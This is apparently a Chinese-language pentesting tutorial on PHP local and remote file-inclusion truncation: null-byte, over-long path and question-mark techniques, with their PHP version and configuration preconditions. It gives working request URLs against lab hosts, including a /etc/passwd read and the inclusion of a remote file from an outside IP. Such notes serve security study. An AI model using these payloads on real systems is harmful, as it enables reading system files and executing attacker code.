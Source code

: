 ## 1、00截断法

00字符截断(php<5.3.4)(需要 magic_quotes_gpc=off)

/etc/passwd

/etc/passwd%00

```http
http://include.moonteam.com/file02.php?file=x.jpg%00
```

![image-20210414215810902](../acess/image-20210414215810902.png) 

## 2、超长文件截断

(php版本小于5.2.8 可以成功，linux需要文件名长于4096，windows需要长于256)

利用操作系统对目录最大长度限制。
在window下256字节
linux下4096字节

截断的字符有.和/.

```http
http://include.moonteam.com/file02.php?file=x.jpg..........................................................................................................................................................................................................................................
```

![image-20210414220107297](../acess/image-20210414220107297.png) 

```http
http://include.moonteam.com/file02.php?file=x.jpg%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e
```

![image-20210414220212102](../acess/image-20210414220212102.png) 

## 3、问号截断

适用于远程截断。

php>=5.3
allow_url_fopen = On
allow_url_include = On

http://www.webtester.com/include/file02.php?file=http://192.168.31.125/x.txt?

![image-20210414221113043](../acess/image-20210414221113043.png) 